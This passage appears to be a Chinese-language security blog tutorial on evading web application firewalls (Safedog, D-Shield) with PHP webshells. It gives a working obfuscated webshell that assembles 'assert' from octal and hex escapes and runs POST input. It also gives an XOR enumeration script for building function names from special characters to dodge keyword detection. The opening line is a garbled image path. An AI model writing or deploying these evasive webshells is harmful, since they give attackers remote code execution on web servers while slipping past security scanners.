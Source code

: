 php_3.php：`<?php $_POST['a'];?>`

用安全狗检测一下：

![][5]

带有 eval 的敏感字符与及敏感传参的\$\_POST 并没有报毒，可以猜测 waf 的一部分机制是参数追踪与及综合判定。

#### bypass

1.关键字绕过

php 是个非常强大的语言对于字符串的各种变化都支持的非常好。

我们可以用进制转换，十六进制，八进制之类的。

```
<?php

$a="\141";#八进制的a
$a .= "\163";#八进制的s
$a .= "\x73";#十六进制的s
$a .= "\x65";#十六进制的e
$a .= "\x72";#十六进制的r
$a .= "\164";#十六进制的t
@$a($_POST["a"]);

?>
```

为什么不用 eval 而用 assert：eval 并不是一个函数，不支持这样子的调用。

这样就 bypass 了安全狗但是过不了 D 盾：

![][6]

2.算术运算

我们可以同通过自增，异或，取反等方法来获得我们想要的字母，再组合成函数，动态调用即可。

例如通过定义 a 然后进行自增运算得到其他想要的字符，但是注意并不能进行自减

![][7]

但是我们这样子取出来的只有小写字符，并不能得到我们想要\_POST，\_GET。

在 PHP 中，两个字符串执行异或操作以后，得到的还是一个字符串。

所以这里我们就可以用异或，取反来取我们想要的大写字母。

写个 php 脚本：

```
<?php
$a=array( "|","!", "@", "#", "%", "^", "&", "*", "(",  ")",  "-", "=", "_", "+", "<", ">", "?", "." , "{" , "}", "[", "]", "\\","~","`","/"); //特殊字符
$alength=count($a);

for($x=0;$x<$alength;$x++) {

for($b=0;$b<$alength;$b++){
echo "the result is ".($a[$x]^$a[$b])." the str is ".$a[$x].$a[$b]."<br>"; //输出遍历异或结果
}}
?>

```


[1]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_105221.png
[2]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_105621.png
[3]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_110137.png
[4]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_111310.png
[5]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_111844.png
[6]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_113023.png
[7]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_113320.png
[8]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_113642.png
[9]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_113902.png
[10]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_114323.png
[11]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_115928.png
[12]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_120233.png
[13]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_120507.png
[14]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_131752.png